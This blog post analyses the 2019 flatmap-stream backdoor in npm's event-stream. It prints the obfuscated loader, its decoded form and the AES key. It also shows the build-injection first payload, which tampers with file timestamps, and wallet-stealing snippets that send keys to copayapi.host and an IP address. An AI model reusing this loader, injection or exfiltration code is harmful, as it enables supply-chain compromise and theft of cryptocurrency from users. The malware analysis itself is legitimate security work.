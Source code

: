 ```yaml
---
title: Reversing flatmap-stream
date: "2019-01-13"
path: "/reversing-flatmap-stream/"
excerpt: Taking a belated look at the backdoor flatmap-stream package 
tags: ["javascript", "flatmap-stream", "reversing", "security"]
---
```


flatmap-stream was included as a dependency in a widely used NPM library event-stream as a nested*.* It was discovered that [the minified version of flatmap-stream had some extra, obfuscated code](https://github.com/dominictarr/event-stream/issues/116). Let’s reverse the code to try to figure out what exactly what it is doing.


## Prettifying the code
```javascript
!function(){
    try{
        var r=require, t=process;
        function e(r){
            return Buffer.from(r,"hex").toString()
        }
        
        var n=r(e("2e2f746573742f64617461")),
        o=t[e(n[3])][e(n[4])];
        
        if(!o)return;
        
        var u=r(e(n[2]))[e(n[6])](e(n[5]),o),
        a=u.update(n[0],e(n[8]),e(n[9]));
        a+=u.final(e(n[9]));
        
        var f=new module.constructor;
        
        f.paths=module.paths,f[e(n[7])](a,""),f.exports(n[1])
    }
    catch(r){}
}();
```

The first thing of note is the `e` function, which converts hex strings. The payload for this malware is hidden within the these hex strings.

First string:
```javascript
> decode("2e2f746573742f64617461")
'./test/data'
```

This line imports code from the ./test/data folder, which contains 10 more hex obfuscated strings.

```javascript
module.exports=[
    "...truncated...",
    "...truncated...",
    "63727970746f",
    "656e76",
    "6e706d5f7061636b6167655f6465736372697074696f6e",
    "616573323536",
    "6372656174654465636970686572",
    "5f636f6d70696c65",
    "686578",
    "75746638"
];
```

After decoding and unobfuscating the code, we get

```javascript
!function(){
    try{
        var r=require, t=process;
        function decode(r){
            return Buffer.from(r,"hex").toString()
        }
        
        // Get data
        var data = require("./test/data")
        // Get the package description, and exit early if it doesn't exist
        var packageDescription = process.env.npm_package_description
        if (!packageDescription) {
            return;
        }
        
        // Decode the first payload with the npm package description
        var u = require('crypto').createDecipher('aes256', packageDescription)
        var firstPayload = u.update(data[0], 'hex', 'utf8')
        firstPayload += u.final('utf8');
        
        // Build a new module
        var f=new module.constructor;
        
        // Build a new module with the first and second payloads
        f.paths = module.paths,f._compile(firstPayload, ""),f.exports(data[1])
    }
    catch(r){}
}();
```

This bootstrapping script is looking for a specific module name to properly decode the payload. We could write a script to harvest npm package descriptions that have flatmap-stream in their dependency tree. However, as the target package has already be discovered, we’ll cheat. The AES256 decryption key is `A Secure Bitcoin Wallet`, which was/is the description of the copay package.

## The first payload
```javascript
module.exports = function(e) {
    try {
        // Exit if specific args aren't in the command line
        if (!/build\\:.*\\-release/.test(process.argv[2])) return;

        // Same npm pack
        var packageDescription = process.env.npm_package_description,
            r = require("fs"),
            i = "./node_modules/@zxing/library/esm5/core/common/reedsolomon/ReedSolomonDecoder.js",

            // Get stats on ReedSolomonDecoder
            // Read file
            n = r.statSync(i),
            c = r.readFileSync(i, "utf8"),
            // Create another cipher
            o = require("crypto").createDecipher("aes256", packageDescription),

            // Decrypt
            s = o.update(e, "hex", "utf8");
        s = "\\n" + (s += o.final("utf8"));

        // Write the payload into ReedSolomonDecoder, and reset utimes
        var a = c.indexOf("\\n/*@@*/");
        0 <= a && (c = c.substr(0, a)), 
        r.writeFileSync(i, c + s, "utf8"), 
        r.utimesSync(i, n.atime, n.mtime), 
        process.on("exit", function() {
            try {
                r.writeFileSync(i, c, "utf8"), r.utimesSync(i, n.atime, n.mtime)
            } catch (e) {}
        })
    } catch (e) {}
};
```

The first payload injects the second payload into release builds of the package. 

## The second payload
After decrypting the second payload with the key listed above, we find the meat and potatoes of the malware. Rather that posting the code for the entire block of code, I’ll post snippets that indicate what this payload does.

### POST to copayapi.host:8080 and 111.90.151.134:8080 with url e and payload n
```javascript
postToUrl("636f7061796170692e686f7374", e, n), 
postToUrl("3131312e39302e3135312e313334", e, n)
```

### Look for wallet files and send the wallet data to hosts above
```javascript
readFromFile("profile", function(e) {
    for (var t in e.credentials) {
        var n = e.credentials[t];
        // If livenet is the network, look in balanceCache files
        "livenet" == n.network && readFromFile("balanceCache-" + n.walletId, 
          function(e) {
            var t = this;
            t.balance = parseFloat(e.balance.split(" ")[0]);
            "btc" == t.coin && t.balance < 100 || 
            "bch" == t.coin && t.balance < 1e3 || 
            // Set the wallet's xPubKey to a global var
            // POST wallet information to url:8080/c, 200 bytes at a time
            (global.CSSMap[t.xPubKey] = !0, chunkAndPost("c", JSON.stringify(t)))
        }.bind(n))
    }
});
```

### Extract wallet keys and send to hosts above
```javascript
var e = require("bitcore-wallet-client/lib/credentials.js");
// Extends getKeysFunc to send all the key information 
// Also sends xPubKey previously set in the global var, and clears it
e.prototype.getKeysFunc = e.prototype.getKeys, e.prototype.getKeys = function(e) {
    var t = this.getKeysFunc(e);
    try {
        global.CSSMap && global.CSSMap[this.xPubKey] && 
        (delete global.CSSMap[this.xPubKey], 
        // POST to url:8080/p, 200 bytes at a time
        chunkAndPost("p", e + "\\t" + this.xPubKey))
    } catch (e) {}
    return t
}
``` 

At this point, it’s fairly clear that this piece of malware steals bitcoins and bitcoin cash. This is a fairly narrow scope attack. Most users of the event-stream package weren’t even affected in the first place.

I realize that this blog post is coming fairly late after the original incident, and most of the detective work has already been performed. However, I wanted to take my own stab at it to see if I could reverse it myself.

